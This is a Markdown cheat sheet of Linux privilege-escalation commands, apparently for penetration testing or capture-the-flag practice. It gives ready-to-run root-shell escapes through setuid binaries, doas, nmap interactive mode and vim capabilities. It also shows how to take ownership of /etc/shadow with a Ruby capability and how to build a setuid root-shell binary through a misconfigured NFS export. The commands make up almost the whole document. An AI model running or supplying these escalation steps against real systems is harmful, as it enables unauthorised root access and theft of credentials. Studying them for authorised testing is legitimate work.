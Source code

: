 ## Kernel
```
uname -a -- to get the kernel version
```

## Nmap
```
sudo nmap --interactive
```

## SetUID
### Base64 SetUID
```
LFILE=[file to read]
/usr/bin/base64 "$LFILE" | base64 --decoded
```
### Doas SetUID
```
/usr/bin/doas -u root /bin/bash 
/etc/doas.conf --> doas config file
```

## Capabilities
### List capabilities
```
getcap -r / 2>/dev/null
```
### VIM capabilites for cap_setuid
```
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
### Ruby capabilites for cap_chown
```
/usr/local/bin/ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002, "/etc/shadow")'
```

## Cron jobs
```
cat /etc/crontab
```

## Network File System
```
cat /etc/exports
showmount -e [ip]  {remote host}
mkdir /tmp/[file]  {local host}
mount -o rw [ip]:[file] [directory path] -nolock // mount -t nfs [ip]: [local mount file]
nano exec.c  
        ''' 
        int main()
        {   
            setgid(0);
            setuid(0);
            system("/bin/bash");
            return 0;
        }
        '''
gcc exec.c -o [save file] -w
chmod +s [save file]
```